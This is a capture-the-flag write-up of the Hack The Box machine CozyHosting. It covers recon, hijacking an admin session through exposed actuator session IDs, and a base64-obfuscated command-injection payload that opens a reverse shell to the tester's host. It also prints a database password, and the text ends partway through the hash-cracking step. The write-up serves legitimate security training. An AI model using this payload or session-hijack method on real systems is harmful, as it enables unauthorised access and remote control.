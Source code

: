 # CozyHosting (Easy)

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0e4dc31a-ab63-448c-b7bf-6eafc355715d)

## Recon
### Nmap portscan

![image](https://github.com/JefJacobs00/writeups/assets/43653885/3ad04db2-ff2f-46d5-8e71-67a838d5c909)

The box has an open http and ssh service. We see that the http service redirects to "cozyhosting.htb". To access the site we need to add this to the /etc/hosts file with the corresponding ipaddress.

### Webserivce recon

The next step is to search trough the webapplication for vulnerabilities. We can use gobuster to search for available endpoints during the gobuster scan we can also checkout the site itself.

Gobuster finds a login and admin page. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/9b84ff13-ac35-4115-b9af-08c11655a442)

We also run a bigger search with dirsearch:

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0502985e-c94b-4529-a13f-6ae50a77e6b5)

When we try to access the admin page we get a 401 (unathorised) and we get redirected to the login page. We try if SQLmap can get us somewhere on this page. This takes a while so we wait lets checkout if [hacktrics](https://book.hacktricks.xyz/pentesting-web/login-bypass) has any tips on how to get past the login page. hacktricks mentions to check if there is a remember me option. This is the case, this might allow us to use a session of a different user with access. From the dirsearch scan we found the page /actuator/sessions this page gives a couple of session ids: 

{
"E1A5A3A6778ADB55DBFA378AD0AB7354":"UNAUTHORIZED",
"8BE8064ACAC4926BE4FEB88BB5AE51DA":"kanderson",
"6113EB51B6B91DCC48C32B5011FE3B99":"UNAUTHORIZED",
"216136184FF0A10378CB091EE802718A":"kanderson",
"C9CCE6A596277216FD58C694BAAE212B":"UNAUTHORIZED"
}

two of these are not UNauthorized and belong to kanderson: 

216136184FF0A10378CB091EE802718A
8BE8064ACAC4926BE4FEB88BB5AE51DA

By changing the cookie we get access to a admin dashboard

![image](https://github.com/JefJacobs00/writeups/assets/43653885/dca39894-aa51-4629-814e-a19465fcf077)

![image](https://github.com/JefJacobs00/writeups/assets/43653885/7f9a2e71-4965-44b3-94bb-1afe9cfca2fc)

### Foothold

At the bottom of the admin dashbord there is a box that allowes us to connect using ssh. However this does not get us get onto the box. In burpsuite we use the payload `{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTEvOTAwMSAwPiYx}|{base64,-d}|bash|` to get a reverse shell. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8d9dc9e3-1aba-4834-8f76-dd9d4f5f814e)

We see that there is a user josh and a user prostgress that has access to the box. In the home folder we find a jar file that we download onto our machine and unzip. In the application.properties file we find the db credentials with user postgres and the password Vg&nvzAQ7XxR. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8b5c8d0f-40c1-46cd-b2ee-86ac90fd4081)

We put these hashes into john to find the cleartext. 












